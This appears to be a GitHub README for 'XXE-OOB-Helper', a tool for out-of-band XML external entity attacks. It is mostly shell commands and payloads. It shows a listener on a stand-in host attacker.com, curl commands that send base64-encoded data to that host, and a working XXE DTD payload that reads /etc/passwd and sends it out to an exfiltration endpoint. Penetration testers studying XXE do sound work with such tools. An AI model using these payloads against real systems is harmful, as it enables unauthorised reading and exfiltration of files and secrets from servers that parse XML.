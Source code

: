 # XXE-OOB-Helper
Useful helper for out-of-bound XXE attacks

## Example
Starting OOB Helper:

```bash
$ oob.py -d http://attacker.com:32032 -p 32032
```

Simulating payload exfiltration

```bash
$ # Both are decoded to "Hello" in window where oob.py is launched
$ curl 'http://attacker.com:32032/exfil/query?decoder=b64u&data=SGVsbG8%3D'
$ curl -XPOST -d "SGVsbG8=" 'http://attacker.com:32032/exfil/post?decoder=b64'
```

Getting payload to exfiltrate file:///etc/passwd with DTD
```bash
$ curl 'http://attacker.com:32032/payload?entity=file:///etc/passwd'
<?xml version="1.0" ?>
<!DOCTYPE r [
   <!ELEMENT r ANY >
   <!ENTITY % sp SYSTEM "http://localhost:32032/dtd?entity=file:///etc/passwd">
   %sp;
   %param1;
   %exfil;
]>
$ curl 'http://localhost:32032/dtd?entity=file:///etc/passwd'
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://localhost:32032/exfil/query?data=%data;'>">
```

## Features
- Generate simple XXE / DTD payloads from templates.
- Grep payload from GET / POST requests.
- Decode payload in popular encodings, like URL encoding or Base64
